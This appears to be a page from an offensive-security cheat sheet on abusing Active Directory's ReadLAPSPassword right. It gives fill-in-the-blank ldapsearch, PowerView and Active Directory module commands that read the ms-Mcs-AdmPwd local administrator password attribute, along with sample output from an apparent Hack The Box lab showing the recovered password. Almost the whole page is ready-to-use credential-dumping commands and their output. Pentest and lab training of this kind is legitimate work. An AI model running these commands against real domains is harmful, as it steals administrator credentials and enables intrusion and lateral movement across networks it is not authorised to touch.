 ```yaml
---
title: "ReadLAPSPassword"
date: 2025-7-25
tags: ["Credential Dumping", "Powerview", "ReadLAPSpassword", "Active Directory", "Windows", "LAPS"]
---
```


### Abuse #1: Read LAPS Password

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
ldapsearch -H ldap://<TARGET> -b 'DC=<EXAMPLE>,DC=<COM>' -x -D <USER>@<DOMAIN> -w '<PASSWORD>' '(ms-MCS-AdmPwd=*)' ms-MCS-AdmPwd
```

```console {class="sample-code"}
$ ldapsearch -H ldap://10.10.10.240 -b 'DC=LicorDeBellota,DC=HTB' -x -D bob@LicorDeBellota.htb -w 'Test1234!@' '(ms-MCS-AdmPwd=*)' ms-MCS-AdmPwd
# extended LDIF
#
# LDAPv3
# base <DC=LicorDeBellota,DC=HTB> with scope subtree
# filter: (ms-MCS-AdmPwd=*)
# requesting: ms-MCS-AdmPwd 
#

# PIVOTAPI, Domain Controllers, LicorDeBellota.htb
dn: CN=PIVOTAPI,OU=Domain Controllers,DC=LicorDeBellota,DC=htb
ms-Mcs-AdmPwd: 2Vf5kP4Xvj5r605V616x

# search reference
ref: ldap://ForestDnsZones.LicorDeBellota.htb/DC=ForestDnsZones,DC=LicorDeBell
 ota,DC=htb

# search reference
ref: ldap://DomainDnsZones.LicorDeBellota.htb/DC=DomainDnsZones,DC=LicorDeBell
 ota,DC=htb

# search reference
ref: ldap://LicorDeBellota.htb/CN=Configuration,DC=LicorDeBellota,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\bob\Documents> . .\PowerView.ps1
```

#### 2. Create a Cred Object (Runas) \[Optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Read LAPS Password

```console
Get-DomainComputer <TARGET_COMPUTER> -Properties ms-Mcs-AdmPwd
```

```console
# Or Active Directory Module
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd -Credential $cred
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\bob\Documents> Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd 


DistinguishedName : CN=PIVOTAPI,OU=Domain Controllers,DC=LicorDeBellota,DC=htb
DNSHostName       : PivotAPI.LicorDeBellota.htb
Enabled           : True
ms-Mcs-AdmPwd     : 2Vf5kP4Xvj5r605V616x
Name              : PIVOTAPI
ObjectClass       : computer
ObjectGUID        : 98783674-e6a3-4d9e-87e3-efe5f31fabbf
SamAccountName    : PIVOTAPI$
SID               : S-1-5-21-842165252-2479896602-2762773115-1004
UserPrincipalName :

```

{{< /tabcontent >}}
